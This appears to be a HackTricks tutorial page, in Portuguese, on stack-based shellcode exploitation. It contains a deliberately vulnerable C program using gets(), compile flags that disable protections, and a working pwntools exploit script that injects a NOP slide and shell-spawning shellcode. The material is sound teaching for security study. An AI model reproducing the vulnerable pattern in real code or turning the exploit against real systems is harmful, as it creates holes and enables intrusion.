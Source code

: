 # Shellcode de Pilha

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

**Shellcode de pilha** é uma técnica usada na **exploração binária** onde um atacante escreve shellcode em uma pilha de programa vulnerável e então modifica o **Ponteiro de Instrução (IP)** ou **Ponteiro de Instrução Estendido (EIP)** para apontar para a localização desse shellcode, fazendo com que ele seja executado. Este é um método clássico usado para obter acesso não autorizado ou executar comandos arbitrários em um sistema alvo. Aqui está uma explicação do processo, incluindo um exemplo simples em C e como você poderia escrever um exploit correspondente usando Python com **pwntools**.

### Exemplo em C: Um Programa Vulnerável

Vamos começar com um exemplo simples de um programa vulnerável em C:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
Este programa é vulnerável a um estouro de buffer devido ao uso da função `gets()`.

### Compilação

Para compilar este programa desabilitando várias proteções (para simular um ambiente vulnerável), você pode usar o seguinte comando:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: Desativa a proteção de pilha.
* `-z execstack`: Torna a pilha executável, o que é necessário para executar shellcode armazenado na pilha.
* `-no-pie`: Desativa o Executável Independente de Posição, facilitando a previsão do endereço de memória onde nosso shellcode estará localizado.
* `-m32`: Compila o programa como um executável de 32 bits, frequentemente usado para simplificar o desenvolvimento de exploits.

### Exploração em Python usando Pwntools

Veja como você poderia escrever um exploit em Python usando **pwntools** para realizar um ataque **ret2shellcode**:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
Este script constrói um payload consistindo de um **slide NOP**, o **shellcode**, e então sobrescreve o **EIP** com o endereço apontando para o slide NOP, garantindo que o shellcode seja executado.

O **slide NOP** (`asm('nop')`) é usado para aumentar a chance de que a execução "deslize" para o nosso shellcode, independentemente do endereço exato. Ajuste o argumento `p32()` para o endereço de início do seu buffer mais um deslocamento para aterrissar no slide NOP.

## Proteções

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **deve ser desativado** para que o endereço seja confiável em todas as execuções, ou o endereço onde a função será armazenada não será sempre o mesmo e você precisaria de algum vazamento para descobrir onde a função win está carregada.
* [**Canários de Pilha**](../common-binary-protections-and-bypasses/stack-canaries/) também devem ser desativados, ou o endereço de retorno comprometido do EIP não será seguido.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) A proteção de **stack** impediria a execução do shellcode dentro da pilha, pois essa região não seria executável.

## Outros Exemplos e Referências

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64 bits, ASLR com vazamento de endereço de pilha, escrever shellcode e saltar para ele
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 bits, ASLR com vazamento de pilha, escrever shellcode e saltar para ele
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 bits, ASLR com vazamento de pilha, comparação para evitar chamada para exit(), sobrescrever variável com um valor e escrever shellcode e saltar para ele
